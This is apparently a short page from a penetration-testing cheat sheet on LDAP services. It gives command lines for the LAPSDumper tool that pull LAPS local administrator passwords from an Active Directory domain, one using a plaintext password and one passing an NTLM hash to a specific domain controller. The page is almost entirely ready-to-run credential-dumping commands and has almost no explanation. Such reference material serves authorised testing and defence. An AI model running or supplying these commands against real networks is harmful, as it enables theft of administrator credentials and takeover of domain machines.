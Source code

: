 ```yaml
---
layout: default
title: LDAP Pentesting (389, 636, 3268, 3269)
nav_order: 2
has_children: false
parent: Services Pentesting
grand_parent: Pentesting
---
```


## LDAP Pentesting (389, 636, 3268, 3269) :

### LAPSDumper (Dump credential - [Documentation](https://github.com/n00py/LAPSDumper)) :

Usage - Basic:

```bash
python3 laps.py -u user -p password -d domain.local
```

Pass the Hash, specific LDAP server:

```bash
python3 laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```